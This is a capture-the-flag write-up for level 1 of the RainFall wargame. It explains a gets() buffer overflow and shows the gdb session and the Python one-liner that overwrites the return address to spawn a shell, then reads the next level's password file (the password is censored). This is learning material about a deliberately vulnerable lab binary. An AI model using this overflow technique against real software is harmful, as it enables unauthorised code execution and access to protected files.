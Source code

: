 # Level 1

From the source (thank you Ghidra), we can see the main calls the vulnerable function `gets` with a buffer of size 76.
We can also see another function called run.

So we can do a buffer overflow exploit where we fill the entire buffer with random values (here A's) and directly afterwards (in the return address), we write the memory address of the run function but in Little-Endian notation.
And we use `cat` to keep the shell open.

```shell
level1@RainFall:~$ gdb ./level1
[...]
Reading symbols from /home/user/level1/level1...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:
Non-debugging symbols:
[...]
0x08048444  run
0x08048480  main
[...]
(gdb) quit
level1@RainFall:~$ (python -c 'print 76 * "A" + "\x44\x84\x04\x08"'; cat)  | ./level1
Good... Wait what?
cat /home/user/level2/.pass
[censored]
```

